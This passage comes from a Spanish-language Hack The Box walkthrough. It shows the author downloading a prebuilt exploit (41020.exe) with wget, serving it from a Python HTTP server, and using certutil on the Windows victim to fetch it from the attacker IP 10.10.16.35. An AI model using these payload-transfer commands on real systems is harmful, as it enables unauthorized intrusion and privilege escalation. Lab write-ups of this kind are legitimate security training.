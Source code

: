 ### 💾 4. Descarga y preparación del exploit

Desde nuestra máquina Parrot, descargamos el binario del exploit:

```bash
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
```

### 🌐 5. Servidor HTTP para transferencia del exploit

Levantamos un servidor web temporal con Python para servir el binario desde la misma ruta en el que hemos puesto el exploit:

```bash
sudo python3 -m http.server 8089
```

![](../img/78835c19e550e6c5b5d2f3c22e761e39.png)

### 📦 6. Transferencia del exploit a la máquina víctima

Desde PowerShell en la máquina Windows (victima), usamos `certutil` para descargar el archivo:

```bash
certutil -urlcache -f http://10.10.16.35:8089/41020.exe exploit.exe
```

> ⚠️ Asegúrate de que la IP `10.10.16.35` coincida con tu IP tun0 o la de tu adaptador VPN de HTB.

🔽 **Descarga exitosa en PowerShell:**

🔽 **Registro del acceso al archivo en el servidor Python:**

![](../img/fde043ade5f2c53df70a40c09f959346.png)

![](../img/7e04aa32c90669924cdbba980260e62d.png)

## 🧠 Tarea 6: Reconocimiento con Metasploit
